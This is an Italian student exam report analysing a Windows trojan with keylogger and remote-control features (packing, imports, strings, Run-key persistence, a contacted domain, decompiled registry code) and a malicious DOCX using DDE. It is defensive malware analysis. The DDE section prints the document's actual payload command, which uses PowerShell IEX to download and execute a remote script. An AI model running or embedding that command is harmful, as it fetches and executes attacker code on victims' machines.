

# codice-malevolo-report
Progetto d'esame per Codice Malevolo AA 2022/2023 - Matricola VR457811

# Malware

Come vedremo il malware analizzato crea un file eseguibile sulla macchina infettata e lo esegue, impostando anche la macchina affinché lo esegua ad ogni riavvio. Raccoglie informazioni sulla macchina e sulle sue configurazioni e probabilmente fa sia da keylogger che da punto di accesso e controllo remoto della macchina infetta. Questo farebbe classificare il file malevolo come Trojan, oltre che come keylogger.

## Analisi statica di base

### Informazioni generali ed impacchettamento

[]()

```
remnux@remnux:~/Desktop$ file '/home/remnux/Desktop/malware/malware' 
/home/remnux/Desktop/malware/malware: PE32 executable (GUI) Intel 80386, for MS Windows, UPX compressed
```

Vediamo innanzitutto che si tratta di un eseguibile per Windows a 32 bit dotato di interfaccia grafica e impacchettato con UPX.
Possiamo vedere l'impacchettamento tramite UPX anche aprendo il file con pestudio e verificando il campo signature.

[]()

Se vogliamo un'ulteriore conferma la possiamo trovare guardando il nome delle sezioni dell'eseguibile ed osservando nomi come UPX0 e UPX1:

[]()

Spacchettiamo ora l'eseguibile utilizzando UPX e apriamo la versione spacchettata utilizzando nuovamente pestudio:

[]()

Vediamo che il campo signature è ora vuoto. La data di compilazione sembra essere domenica 15 aprile 2012. Utilizzando il programma ExeInfo PE riusciamo a vedere che la signature riporta [TODO: inserire firma]

Nella lista delle sezioni troviamo la sezione tls, la sua presenza potrebbe indicare che il malware ha incluso un controllo di anti-debug, questa cosa merita controlli approfonditi che faremo in seguito. E' presente anche una sezione risorse.

### Risorse

Tra le risorse troviamo alcuni file Delphi.

### Imports

Quello che possiamo vedere prima di tutto è che il malware include diversi import di API di Windows che gli consentono di gestire connessioni di rete, recuperare alcune informazioni sull'hardware della macchina infetta, prendere informazioni sui monitor e sulla finestra correntemente visualizzata (e cambiarla), modificare le chiavi del registro di windows, creare/distruggere processi, leggere e scrivere la clipboard.
Un import da notare è GetCapture, funzione che consente di catturare una porzione dello/gli schermo/i, questo è un indicatore del fatto che il malware potrebbe catturare degli screenshot ed inviarli ad un attaccante. Contiene anche una serie di API legate alla gestione delle risorse e questo può essere legato al fatto che nelle risorse abbiamo dei file Delphi. Non mancano API per la lettura e scrittura di chiavi del registro di Windows, così come GetTickCount che può risultare utile per tecniche di antidebugging visto che consente di accorgersi se l'esecuzione è step-by-step anziché "in tempo reale". Un'altra API utile al malware per proteggersi è Sleep che aiuta ad evadere il rilevamento da parte dell'antivirus.
Ci sono anche API utili per le connessioni di rete e per l'allocazione della memoria, per la cattura dello stato della tastiera (il che può essere utile per un keylogger ad esempio) e possibilità di aggiungere, rimuovere e ricercare stringhe nella Atom Table (per salvare l'elenco di tasti premuti?), per la gestione di file su disco (ricerca, eliminazione, eccetera).

[TODO: cercare le API qui riportate https://moodledidattica.univr.it/pluginfile.php/1231027/course/section/114897/reverse-engineering-malicious-code-tips.pdf]

### Stringhe

[]()

Oltre alle stringhe legate alle API di cui abbiamo appena parlato troviamo una lunga lista di stringhe che pestudio ci segnala come potenziali indicatori di un comportamento malevolo. Tra le stringhe ci sono chiavi di registro ma anche diversi riferimenti a "Shell traywnd" ovvero alla barra di windows, al processo Task Manager, al Prompt dei comandi, a Internet Explorer e ad altre applicazioni.
Il malware contiene anche un lungo elenco di tasti della tastiera (ad esempio Left, Right, Shift, [ESC], [F1]...[F8], [DEL], [INS]) che ci può far pensare ad una tastiera virtuale o più probabilmente ad una funzionalità di keylogging, soprattutto quest'ultimo considerando che contiene anche OnKeyDown, OnKeyPressed, OnKeyUp.
Un'altra cosa degna di interesse è la presenza di diverse format-strings che fanno pensare ad un codice in C/C++ o Delphi, un ulteriore indizio di ciò è la presenza tra le stringhe di tipi di variabili quali Boolean, Integer, Byte, Word.
E' poi presente una lunga lista di DLL quali kernel32, USER32, uxtheme, DWMAPI.
Compare anche un elenco di tutti i caratteri per la codifica Base64 e ci sono molte stringhe che sembrano pezzi di stringhe codificate.
Tra le stringhe vediamo anche una lista di registri di sistema (o pezzi di essi) tra i quali SOFTWARE\Microsoft\Windows\CurrentVersion\Run che può essere usato per l'avvio automatico al boot di qualche risorsa creata dal malware o del malware stesso.
L'unico indirizzo IP che compare tra le stringhe sembra essere 127.0.0.1, quindi localhost, e non sono stati notati percorsi a file se non quelli ad applicazioni di Windows citati prima.
Non è presente tra le stringhe alcun URL completo ma compaiono sia "http://" che "www.", indicatori che degli url vengono costruiti ed utilizzati durante il funzionamento.
Altre stringhe interessanti che sono state trovate nel malware contengono "CaptureWebcam", "ScreenCapture", "SoundCapture", "SetCapture", "GetCapture", "ClientToScreen", "RemoteDesktop", "ActiveOnlineKeylogger", "ActiveOfflineKeylogger", "PortScanAdd", "ScanPorts", "SeShutdownPrivilege", "PowerOff", "CloseServer", "RestartServer". Tutte queste fanno pensare che il malware possa consentire un controllo remoto della macchina avviando un server in locale che attende una connessione dall'esterno.

### Conclusioni dell'analisi statica

Il malware potrebbe essere un keylogger capace di impostarsi in avvio automatico, creare copie di sé stesso, eseguire screenshots e mandare il tutto ad un endpoint. Un'altra possibilità, alternativa alla prima o parallela ad essa, è che fornisca il controllo remoto della macchina, quest'ultima ipotesi è piuttosto probabile.

## Analisi dinamica di base

Eseguamo ora il malware dopo aver fatto un'istantanea dei registri di Windows con RegShot ed avviando Process Monitor.

[]()

### Persistenza (Mitre ATT&CK Matrix)

[]()

Come vediamo dallo screenshot qui sopra riportato la persistenza viene raggiunta dal malware creando una copia di sé chiamata _Taskmgrk.exe_ al percorso _C:\Users\admin\AppData\Local\Temp\Temp_ ed aggiungendola al registro di Windows tra le applicazioni da avviare automaticamente all'avvio, fingendosi quindi il task manager di Windows per qualcuno che naviga nel file system o nel registro. Infine il malware avvia questa nuova copia di sé, lo vediamo nella penultima riga dello screenshot in cui vi è l'operazione di _Process Create_.

### Registro di Windows

Durante l'analisi statica sono state viste le seguenti chiavi di registro:

Chiavi di registro in strings:
- SOFTWARE\Borland\Delphi\RTL
- Software\Borland\Locales
- Software\Borland\Delphi\Locales
- SOFTWARE\Microsoft\Windows NT\CurrentVersion\FontSubstitutes
- SOFTWARE\Microsoft\Shared Tools\MSConfig\startupreg
- SOFTWARE\Microsoft\Shared Tools\MSConfig\startupfolder
- Software\Microsoft\Windows NT\CurrentVersion\Winlogon
- HARDWARE\DESCRIPTION\System\CentralProcessor\0
- SOFTWARE\Microsoft\Windows\CurrentVersion\Run

Sono stati trovati anche dei frammenti di chiavi di registro:
- HKLM
- HKCU
- CurrentVersion
- System\CurrentControlSet\Services\

Esseguendo l'analisi dinamica con _Process Monitor_ si è visto che il malware accede molte volte ai registri sopra riportati ed altri, possiamo vederne una parte nel seguente screenshot:

[]()

La lista delle chiavi create è molto più breve:

[]()

Nessuna chiave esistente è invece stata rinominata.

### Registro di Windows - Privilege escalation (Mitre ATT&CK Matrix)
Una chiave che compare nell'elenco e che può destare preoccupazioni è _HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon_ con tipo di accesso _All access_: il malware può quindi modificare le procedure di login/logout dal sistema.

### Registro di Windows - Discovery (Mitre ATT&CK Matrix)
Un'altra operazione fatta riguarda 
_HKCU\SOFTWARE\MICROSOFT\WINDOWS\CURRENTVERSION\INTERNET SETTINGS\ZONES\1_ (e 2, 3, 4, 0), significa che il malware accede alle impostazioni internet.
Vengono cercate anche le chiavi _HKLM\SOFTWARE\MICROSOFT\CRYPTOGRAPHY\CONFIGURATION_ e _HKLM\SYSTEM\CONTROLSET001\CONTROL\COMPUTERNAME\ACTIVECOMPUTERNAME_ per leggere il guid ed il nome della macchina infettata.
L'ultima chiave del registro da notare è _
HKLM\System\CurrentControlSet\Control\NLS\Language_ per controllare la lingua del sistema.
Accedendo a HKLM\System e a HKLM\Sam [TODO: da controllare] potrebbe anche effettuare il dump delle credenziali dell'utente.

### Creazione processi

Il malware non avvia processi oltre a quello visto per la persistenza.

### Creazione file

Il malware non scrive files oltre a quello visto per la persistenza.

## Analisi del traffico di rete

E' stato catturato molto traffico di rete dalla macchina in esame. Filtrando per cercare le chiamate ai DNS troviamo un url ventoclima.hopto.org che potrebbe essere sospetto e cercando a fondo si scopre che è riportato in diverse blacklist, ad esempio su https://github.com/stamparm/blackbook . Questo indirizzo è stato cercato ogni pochi secondi per tutta la durata dell'esecuzione del malware.

[]()

E' stata catturata attività di rete anche all'indirizzo 0.0.0.0 .

Non vengono effettuate connessioni di tipo SMTP.

[TODO: ricontrollare la configurazione di inetsim e verificare se è corretto che non effettui altre richieste]

## Reverse engineering della funzione sub_4835DC

Innanzitutto l'intero corpo della funzione, disassemblato e decompilato in C:

```
void FUN_004835dc(undefined *param_1,undefined *param_2)

{
  BYTE *lpData;
  LPCSTR lpValueName;
  ulong cbData;
  undefined4 *in_FS_OFFSET;
  DWORD Reserved;
  DWORD dwType;
  undefined4 uStack52;
  undefined *puStack48;
  undefined *puStack44;
  undefined4 uStack40;
  undefined *puStack36;
  undefined *puStack32;
  HKEY run_regkey;
  undefined *local_c;
  undefined *local_8;
  
  puStack44 = &stack0xfffffffc;
  puStack32 = (undefined *)0x4835f3;
  local_c = param_2;
  local_8 = param_1;
  FUN_004059cc((int)param_1);
  puStack32 = (undefined *)0x4835fb;
  FUN_004059cc((int)local_c);
  puStack36 = &DAT_00483696;
  uStack40 = *in_FS_OFFSET;
  *in_FS_OFFSET = &uStack40;
  puStack48 = &DAT_0048366a;
  uStack52 = *in_FS_OFFSET;
  *in_FS_OFFSET = &uStack52;
  puStack32 = &stack0xfffffffc;
  RegOpenKeyA((HKEY)0x80000001,"Software\\Microsoft\\Windows\\CurrentVersion\\Run",&run_regkey);
  cbData = (ulong)local_c;
  if (local_c != (undefined *)0x0) {
    cbData = *(ulong *)(local_c + -4);
  }
  cbData = cbData + 1;
  lpData = FUN_004059dc(local_c);
  dwType = 1;
  Reserved = 0;
  lpValueName = FUN_004059dc(local_8);
  RegSetValueExA(run_regkey,lpValueName,Reserved,dwType,lpData,cbData);
  RegCloseKey(run_regkey);
  *in_FS_OFFSET = uStack52;
  *in_FS_OFFSET = uStack40;
  puStack32 = &LAB_0048369d;
  puStack36 = (undefined *)0x483695;
  FUN_00405554((int *)&local_c,2);
  return;
}

```

Per iniziare a comprendere il codice partiamo dalle righe che contengono chiamate ad API di Windows.

```
RegOpenKeyA((HKEY)0x80000001,"Software\\Microsoft\\Windows\\CurrentVersion\\Run",&run_regkey)
```
Questa funzione ottiene in run_regkey un handle al registro _HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run_ (cercando nella documentazione troviamo che 0x80000001 = HKEY_CURRENT_USER).

```
RegSetValueExA(run_regkey, lpValueName, Reserved, dwType, lpData, cbData);
```
Cercando la funzione nella documentazione ufficiale Microsoft all'indirizzo https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa possiamo comprendere pian piano il significato dei vari parametri.
```
LSTATUS RegSetValueExA(
  [in]           HKEY       hKey,
  [in, optional] LPCSTR     lpValueName,
                 DWORD      Reserved,
  [in]           DWORD      dwType,
  [in]           const BYTE *lpData,
  [in]           DWORD      cbData
);
```

Nel nostro caso abbiamo sei parametri quindi anche quello opzionale è stato usato.

- run_regkey: è un handle alla chiave di registro, quello che abbiamo ottenuto prima
- lpValueName: è il nome da dare al valore che vogliamo salvare
- Reserved: è sempre 0
- dwType: è un enumerable che indica il tipo di dato che inseriremo nella chiave
- *lpData: puntatore ai dati che vogliamo salvare
- cbData: dimensione in bytes (con eventuale byte di fine stringa) del valore da salvare

Guardando quest'ultimo valore inizia ad avere un significato il pezzo di codice precedente:
```
  cbData = (ulong)local_c;
  if (local_c != (undefined *)0x0) {
    cbData = *(ulong *)(local_c + -4);
  }
  cbData = cbData + 1;
```
Questa sequenza di istruzioni serve a "misurare" il valore di lpData ed aggiungerci uno a causa del terminating null byte \00. cbData viene infatti inizializzato al valore di local_c e viene decrementato di 4 (quindi alzato nello stack) di 4 butes alla volta finché viene raggiunto \00.

La funzione FUN_004059dc restituisce il valore passato come parametro se diverso da zero oppure un valore di default. Vediamo che è usata in più punti nella funzione che stiamo analizzando.

```
undefined * FUN_004059dc(undefined *param_1)

{
  if (param_1 != (undefined *)0x0) {
    return param_1;
  }
  return &DAT_004059e9;
}
```

lpData viene ricavato da local_c che a sua volta deriva da param2 mentre lpValueName viene ricavato da local_8 che a sua volta deriva da param1.

Al di là dei dettagli, possiamo concludere con relativa sicurezza che la funzione `sub_4835DC` si occupa di ricevere in input un nome ed un valore e di scriverli nel registro di Windows alla chiave _HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run_.

---
---
---

# IL DOCUMENTO MALEVOLO

Il documento in analisi è un docx privo di macro e contenente una minaccia di tipo DDE che consentirebbe, se il relativo server fosse ancora attivo, il download di un malware sulla macchina della vittima.

# Verifica del formato del file

[]()

## Analisi statica

### Stringhe

[]()

Tra le stringhe non troviamo informazioni particolarmente interessanti, in chiaro troviamo solo i nomi e percorsi dei vari file contenuti del docx, gli stessi che vedremo quando elencheremo il contenuto del pacchetto, oltre ad una lunga lista di stringhe incomprensibili.

### exiftool

[]()

Una prima cosa da notare è che il file è stato realizzato partendo dal template Normal.dotm, tale estensione ci fa pensare che il file contenga una macro. Il nostro file è però effettivamente un docx e non un dotm.
Il creatore del file è un anonimo "Windows User".
Vediamo anche che il file è stato creato (o modificato) nel settembre 2018 ed abbiamo conferma del fatto che si tratta realmente di un docx. La data di modifica dello Zip, invece, non va presa in considerazione in quanto la mezzanotte del primo gennaio 1980 è sicuramente l'interpretazione come data di un dato assente.
Non abbiamo alcuna indicazione relativa alla localizzazione.

### Ricerca di codice VBA

[]()
[]()
[]()
Come possiamo vedere con i comandi zipdump, tree (dopo la scompattazione) e olevba il docx in esame non contiene macro.

### Altro - Dynamic Data Exchange

Si potrebbe pensare che il documento non sia quindi malevolo, ma contiene invece un pericolo di tipo diverso. Esiste una vecchia tecnologia Microsoft che consente di eseguire del codice direttamente dall'interno di un documento Office, chiamata Dynamic Data Exchange (DDE). DDE è documentato in MITRE ATT&CK® T1559 ed è un protocollo nato per lo scambio di dati tra applicazioni del pacchetto Microsoft Office. Con le versioni più recenti di Office l'esecuzione di comandi DDE avviene solo dopo una richiesta di conferma all'utente, attenuando il problema legato alla sicurezza, tuttavia l'attaccante può spingere l'utente ad ignorare i messaggi di avviso e lasciare che venga eseguito il codice.

Procediamo quindi a verificare l'eventuale presenza di comandi DDE con un apposito comando preinstallato in REMnux: msodde.

[]()

Vediamo così un comando che effettua il download di un software malevolo. L'url _trt.doe.louisiana.gov_ non è purtroppo più raggiungibile e non possiamo quindi analizzare il malware che era previsto dover essere scaricato ed eseguito sulla macchina.

Il codice del comando è il seguente:
```
command: DDEAUTO c:\\windows\\system32\\cmd.exe \/k powershell -C ;echo \\https://sec.gov/\\;IEX((new-object net.webclient).downloadstring(https://trt.doe.louisiana.gov/fonts.txt)) \
```
Troviamo quindi due url:
- https://sec.gov/
- https://trt.doe.louisiana.gov/fonts.txt

Il primo viene solo stampato, il secondo come detto è relativo al download.

## Altri potenziali pericoli

[]()

Come vediamo da questa tabella riassuntiva di oleid non sembrano presenti altri pericoli, in particolare oltre all'assenza di macro vediamo che non vengono rilevati template injection. E' superfluo l'utilizzo di oleobj, a questo punto, ma possiamo provarlo comunque per averne la prova:

[]()

Per concludere possiamo aprire il documento in una macchina virtuale per vedere come appare all'utente protagonista dell'attacco:

[]()

================================================

# Richieste per l'esame (sezione da eliminare)

================================================

# MALWARE
## OK Analisi statica di base
In questa sezione dovete riportare i risultati dell’analisi statica del PE del malware utilizzando tool quali PEstudio, ExeInfoPE or PEID. In particolare dovete rispondere alle seguenti domande:
- OK Il malware e’ impacchettato? Se si quale packer e’ stato utilizzato? Quali  sono gli elementi del PE file che indicano che il malware e’ impacchettato?
- OK Quali API vengono importate dal malware? Qual’e’ un possibile comportamento del malware in base alle API importate?
- OK Quali stringhe sono contenute nel malware? Ci sono stringhe che possono che corrispondono a file o cartelle? Oppure sottochiavi del Windows registry? Oppure  URL? oppure indirizzi IP? 
- OK? Alcune delle stringhe sono offuscate o cifrate? Quale codifica o algoritmo di cifratura viene utilizzato?
## OK Analisi dinamica di base
In questa sezione dovete riportare i risultati dell’analisi dinamica del malware utilizzando tools quali  Regshot, e ProcMon. In particolare dovete rispondere alle seguenti domande:
 
- OK Il malware crea o modifica chiavi o sottochiavi del Windows registry? Se si quali ?
- OK Il malware crea o cancella cartelle o file sulla macchina virtuale? Se si quali?
- OK Il malware crea qualche altro processo?
- OK Il malware e’ persistente sulla macchina virtuale? Se si, quale tecnica utilizza per raggiungere persistenza?
## ~OK Analisi del traffico di rete
In questa sezione dovete riportare i risultati dell’analisi del traffico di rete con Wireshark e Inetsim. In particolare, dovete rispondere alle seguenti domande:
OK - Il malware inizia connessioni di rete? Se si che tipo di traffico genera?  Quali URL or indirizzi IP tenta di contattare?
 
## Reverse engineering della funzione indicata
In questa sezione dovete spiegare il comportamento della funzione assegnata determinato facendo il reverse engineering del codice con IDA, Ghidra e x32dbg.

# ~OK IL DOCUMENTO MALEVOLO
## ~OK Analisi statica
In questa sezione dovete spiegare i risultati dell’analisi effettuata con strings (OK) , exiftool (OK), e yara (MANCA, fatto con msodde) Poi presentare i risultati ottenuti con i tool di analisi specifici per la tipologia di documento. Per esempio, se il documento è un pdf riportare i risultati ottenuti con pdfid, pdf-parser e peepdf.
 
## OK Analisi del codice malevolo contenuto nel documento
 
In questa sezione dovete spiegare il comportamento dell’eventuale codice malevolo contenuto all’interno del documento.


<style>
@media print, (overflow-block: paged) or (overflow-block: optional-paged)
{
  hr
  {
    page-break-after: always; /* CSS 2 */
         break-after: region; /* CSS 3+ */
    /* minimal layout disruption: */
    height: 0.1mm; visibility: hidden;
  }
}
</style>